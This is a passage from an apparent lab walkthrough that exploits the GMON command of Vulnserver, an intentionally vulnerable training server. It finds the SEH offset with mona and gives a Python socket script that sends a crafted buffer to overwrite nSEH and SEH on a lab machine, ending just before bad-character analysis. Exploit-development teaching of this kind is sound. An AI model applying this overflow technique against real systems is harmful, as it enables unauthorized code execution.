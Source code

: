We can also locate offset using ```mona``` by ```!mona findmsp```,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-offset-mona.png">
</div>

So, our ```nSEH``` is present at the offset of ```3549 bytes``` in the data

## Overwriting SEH

Now, we have found the offset of our ```SEH handlers```

It’s time to control the SEH, which is the first important phase of this exploitation

Lets craft a script to overwrite the SEH with our own custom data, which will be further used to craft an exploit

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat overwrite-seh.py 
import socket, sys
# to overwrite buffer and EBP
payload=b"A"*3549
# to overwrite nSEH
payload+=b"B"*4
# to overwrite SEH
payload+=b"C"*4
payload+=b"D"*(5000-len(payload))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.141", 9999))
s.send((b"GMON /."+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 overwrite-seh.py  

```

We have crashed our program and succesfully overwrote the SEH with our own values

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-overwrite-seh.png">
</div>

Our ```nSEH``` and ```SEH``` is filled with our own data correctly, so it fits now

Here ```0x43434343``` will be placed in EIP if there is no exception caused by SEH

For now, we could control SEH at runtime and the data in SEH is from our buffer payload, which will be used to reach EIP

## Finding bad characters
